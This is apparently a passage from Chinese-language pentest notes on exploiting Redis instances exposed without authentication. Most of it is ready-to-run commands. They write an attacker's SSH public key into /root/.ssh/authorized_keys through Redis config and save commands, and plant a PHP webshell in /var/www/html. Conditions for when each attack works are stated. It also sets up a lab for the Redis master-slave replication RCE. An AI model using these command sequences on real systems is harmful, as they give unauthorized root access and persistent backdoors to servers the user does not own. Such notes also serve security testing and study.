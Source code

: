   cat test.txt | redis -cli -h 192.168.91.132 -x set test


    **写 ssh-keygen 公钥然后使用私钥登陆**

    在以下条件下,可以利用此方法
    1. Redis 服务使用 ROOT 账号启动
    2. 服务器开放了 SSH 服务,而且允许使用密钥登录,即可远程写入一个公钥,直接登录远程服务器.

    首先在本地生成一对密钥 `ssh-keygen -t rsa` 然后执行命令:
    ```bash
    # 将公钥的内容写到一个文本中命令如下
    (echo -e "\n\n"; cat id_rsa.pub; echo -e "\n\n") > test.txt

    # 将里面的内容写入远程的 Redis 服务器上并且设置其 Key 为 test命令如下
    cat test.txt | redis -cli -h <hostname> -x set test
    redis-cli -h <hostname>
    keys *
    get test
    config set dir "/root/.ssh"
    config set dbfilename "authorized_keys"
    save
    ```
    保存后可以直接利用公钥登录 ssh

    **往 web 物理路径写 webshell**

    当 redis 权限不高时,并且服务器开着 web 服务,在 redis 有 web 目录写权限时,可以尝试往 web 路径写 webshell,执行以下命令
    ```bash
    > config set dir /var/www/html/
    > config set dbfilename shell.php
    > set x "<?php phpinfo();?>"
    > save
    ```
    即可将 shell 写入 web 目录(web 目录根据实际情况)

**主从复制远程代码执行漏洞**
- 搭建环境
    ```bash
    yum install tcl
    wget download.redis.io/releases/redis-4.0.11.tar.gz
    tar zxf redis-4.0.11.tar.gz
    cd redis-4.0.11
    make PREFIX=/usr/local/redis install

    /usr/local/redis/bin/redis-server

    参考 https://mp.weixin.qq.com/s/MSWLqzyNnliX1G7TRYAwVw
    ```

- 文章
    - [Redis 基于主从复制的 RCE 利用方式](https://paper.seebug.org/975/)
